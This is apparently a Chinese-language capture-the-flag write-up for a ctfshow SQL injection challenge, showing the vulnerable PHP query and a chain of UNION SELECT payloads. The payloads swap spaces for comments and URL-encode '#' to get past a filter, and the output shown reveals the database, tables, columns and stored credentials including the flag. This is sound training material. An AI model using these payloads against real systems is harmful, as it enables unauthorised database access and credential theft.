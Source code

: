 #### 链接

[https://blog.csdn.net/solitudi/article/details/110144623]: sql注入	"sql注入byY4tacker"
[https://blog.csdn.net/solitudi/article/details/109446561]: 
[https://www.cnblogs.com/tianyu0125/p/14006275.html]: 



查询语句

```mysql
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";
```



返回逻辑

```php
//对传入的参数进行了过滤
  function waf($str){
   //代码过于简单，不宜展示
  }
```



payload

尝试绕过过滤

##### 替换空格为/**/,替换#为%23

```mysql
//判断注入
1'and'a'='a

//判断字段
1'/**/order/**/by/**/3%23

//判段数据库
-1'/**/Union/**/Select/**/user(),database(),version()%23
root@localhost			ctfshow_web			10.3.18-MariaDB

//判断table
1'/**/Union/**/Select/**/user(),table_name,version()/**/from/**/information_schema.tables/**/where/**/table_schema=database()%23
root@localhost			ctfshow_user			10.3.18-MariaDB


//判断字段

1'/**/Union/**/Select/**/user(),column_name,version()/**/from/**/information_schema.columns/**/where/**/table_name='ctfshow_user'%23
root@localhost	id					10.3.18-MariaDB
root@localhost	username			10.3.18-MariaDB
root@localhost	password			10.3.18-MariaDB



//判断内容

1'/**/Union/**/Select/**/user(),username,password/**/from/**/ctfshow_user%23

root@localhost	admin				admin
root@localhost	user1				111
root@localhost	user2				222
root@localhost	userAUTO			passwordAUTO
root@localhost	flag				flag{d71b1a0d-7d2d-4218-9e64-ef1e58c45882}
```





